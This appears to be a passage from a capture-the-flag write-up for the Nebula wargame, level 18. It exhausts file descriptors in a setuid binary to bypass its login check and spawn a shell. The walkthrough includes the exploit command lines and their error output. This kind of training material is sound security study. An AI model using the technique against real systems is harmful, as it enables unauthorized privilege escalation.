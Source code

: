 # Exploiting the file logic flaw
Ok, so first we need to know how many file descriptors can be opened by a process:

```lang-bash line-numbers 
level18@nebula:~$ ulimit -a
core file size          (blocks, -c) 0
data seg size           (kbytes, -d) unlimited
scheduling priority             (-e) 0
file size               (blocks, -f) unlimited
pending signals                 (-i) 1839
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1024
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) unlimited
max user processes              (-u) 1839
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited
```

Nice 1024, so when the program starts it take 3 for the stdin, stdout and stderr, we need to take 1021 more fds before the **fopen** fails and we are logged in:

```lang-bash line-numbers 
level18@nebula:~$ echo "`python -c 'print("login me\n"*1021 + "shell")'`" | /home/flag18/flag18 -v -d /tmp/log
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```

Opps, we take all of the fds so our shell is refusing to run because it cannot open **libncurses.so.5**. Note than since we are running **/bin/sh** with the flag18 arguments (including binary name as arg 0) the error message looks like coming from flag18 when its actually coming from /bin/sh

Ok, remember that there was an option to close the log file and free its fd?? lets use it:

```lang-bash line-numbers 
level18@nebula:~$ echo "`python -c 'print("login me\n"*1021 + "closelog\n" + "shell")'`" | /home/flag18/flag18 -v -d /tmp/log
/home/flag18/flag18: -d: invalid option
Usage:	/home/flag18/flag18 [GNU long option] [option] ...
	/home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
	--debug
	--debugger
	--dump-po-strings
	--dump-strings
	--help
	--init-file
	--login
	--noediting
	--noprofile
	--norc
	--posix
	--protected
	--rcfile
	--restricted
	--verbose
	--version
Shell options:
	-irsD or -c command or -O shopt_option		(invocation only)
	-abefhkmnptuvxBCHP or -o option
```